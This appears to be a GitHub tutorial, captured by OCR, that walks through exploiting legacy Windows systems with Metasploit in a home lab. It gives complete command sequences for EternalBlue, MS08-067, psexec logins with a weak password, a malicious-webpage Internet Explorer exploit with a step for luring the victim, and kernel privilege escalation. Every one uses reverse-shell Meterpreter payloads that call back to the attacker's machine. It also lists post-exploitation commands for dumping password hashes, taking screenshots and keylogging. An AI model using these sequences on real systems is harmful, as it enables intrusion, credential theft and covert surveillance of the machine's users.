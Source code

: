 
1. **How EternalBlue works**
2. **How to exploit it in a lab**
3. **How to approach the other ones step-by-step**



## **1️⃣ MS17-010 – EternalBlue SMBv1 RCE**

**What it is:**

* SMB (Server Message Block) is a file-sharing protocol in Windows.
* In Windows 7 (and older systems), SMBv1 has a **buffer overflow vulnerability** that lets an attacker execute code remotely without authentication.
* Microsoft patched it in March 2017 — but many unpatched systems still exist in labs.
* Famously used in **WannaCry ransomware**.



### **Step-by-step Lab Example**

**Requirements:**

* Kali Linux attacker machine (Metasploit installed)
* Windows 7 SP1 (32-bit or 64-bit) **unpatched** with SMBv1 enabled (Host-Only Network in VirtualBox/VMware)



#### **1. Scan target with Nmap to check vulnerability**

```bash
nmap -p 445 --script smb-vuln-ms17-010 <target-ip>
```

* If it says **VULNERABLE**, you can proceed.



#### **2. Start Metasploit**

```bash
msfconsole
```



#### **3. Load the EternalBlue exploit**

```bash
use exploit/windows/smb/ms17_010_eternalblue
```


#### **4. Set target IP**

```bash
set RHOSTS <target-ip>
```



#### **5. Choose payload**

```bash
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <your-kali-ip>
```



#### **6. Exploit**

```bash
exploit
```

* If successful, you’ll get a **Meterpreter session** (remote shell).



#### **7. Post-exploitation fun**

```bash
sysinfo         # Get system info
hashdump        # Dump password hashes
screenshot      # Capture desktop screenshot
keyscan_start   # Start keylogger
keyscan_dump    # Dump logged keystrokes
```


## **2️⃣ MS08-067 – NetAPI RCE**

**How it works:**

* Vulnerability in Windows Server service (`netapi32.dll`).
* Allows **unauthenticated remote code execution** via malformed RPC requests.
* Works well on older Windows 7 builds.

**Lab Steps:** (Almost same as above)

```bash
use exploit/windows/smb/ms08_067_netapi
set RHOSTS <target-ip>
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <your-ip>
exploit
```



## **3️⃣ psexec SMB Admin Access**

**How it works:**

* Not a vulnerability — but if weak credentials are found, you can log in remotely and run code.
* Great for **lateral movement** exercises.

```bash
use exploit/windows/smb/psexec
set RHOSTS <target-ip>
set SMBUser administrator
set SMBPass 123456
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <your-ip>
exploit
```

---

## **4️⃣ IE Browser Exploits**

**How it works:**

* Host a malicious webpage with Metasploit.
* Victim visits in IE 8/9 → exploit triggers.

Example:

```bash
use exploit/windows/browser/ie_execcommand_uaf
set SRVHOST <your-ip>
set URIPATH /
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <your-ip>
exploit
```

Then, get victim to visit:
`http://<your-ip>/`

## **5️⃣ Local Privilege Escalation**

**How it works:**

* You already have a low-privilege account, and you exploit a kernel or service misconfiguration to become SYSTEM.

Example:

```bash
use exploit/windows/local/ms10_015_kitrap0d
set SESSION <session-id>
exploit
```
